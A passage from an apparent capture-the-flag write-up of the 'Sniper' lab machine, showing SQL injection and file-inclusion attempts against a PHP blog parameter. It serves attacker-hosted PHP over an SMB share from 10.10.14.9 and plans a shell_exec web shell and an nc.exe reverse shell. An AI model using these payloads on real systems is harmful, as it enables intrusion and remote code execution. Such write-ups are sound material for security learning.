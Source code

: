 > **[Remote file inclusion](https://www.invicti.com/learn/remote-file-inclusion-rfi/){:target="_blank"}** (**RFI**) is a web vulnerability that lets a malicious hacker force the application to include arbitrary code files imported from another location, for example, a server controlled by the attacker.

```bash
# http://10.10.10.151/user/login.php
# admin, admin' or 1=1-- -      :(

# http://10.10.10.151/blog/?lang=\Windows\System32\drivers\etc\hosts
# view-source:http://10.10.10.151/blog/?lang=\Windows\System32\drivers\etc\hosts
# view-source:http://10.10.10.151/blog/?lang=\apache\php\php.ini
# view-source:http://10.10.10.151/blog/?lang=\WINDOWS\php.ini
# view-source:http://10.10.10.151/blog/?lang=\WINDOWS\win.ini

python3 -m http.server 80
# http://10.10.10.151/blog/?lang=http://10.10.14.9/
# :(

impacket-smbserver smbFolder $(pwd) -smb2support
# http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test

echo "<?php echo 'oldboy was here'; ?>" > test.php
cat !$
impacket-smbserver smbFolder $(pwd) -smb2support

view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php
# :)
```

<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Something I found strange about the **RFI** attack, is that usually when I start an **SMB server** I usually get the **NTLMv2 Hash** from the connecting **Windows user**, but on this machine `impacket-smbserver` did **not succeed in catching it**. Now that I can upload malicious **PHP** code I intend to turn it into an **RCE**, so first I will create a malicious file whose code allows me to execute commands through the **shell_exec** function and the use of the global super variable **```$_REQUEST```**. The first thing I successfully manage to do is to send a `ping` trace which I catch with `tcpdump` on my attacking machine. I can now start enumerating the system and leak information, although I still don't have access to the contents of the first flag. My next step is to access the system, so I'm going to look for `nc.exe` on my system, to make it accessible from the **SMB server** started with `impacket-smbserver` and finally run the command indicated to capture the incoming **Reverse Shell** with `nc` on port **443**.
